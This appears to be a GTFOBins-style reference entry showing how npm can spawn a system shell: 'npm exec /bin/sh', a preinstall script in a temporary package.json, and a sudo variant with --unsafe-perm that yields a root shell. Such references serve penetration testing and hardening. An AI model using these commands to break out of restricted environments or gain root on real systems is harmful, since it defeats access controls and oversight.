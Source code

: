 # GTFOBin: npm

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
npm exec /bin/sh
```

Additionally, arbitrary script names can be used in place of `preinstall` and triggered by name with, e.g., `npm -C $TF run preinstall`.

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
npm -C $TF i
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Additionally, arbitrary script names can be used in place of `preinstall` and triggered by name with, e.g., `npm -C $TF run preinstall`.

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```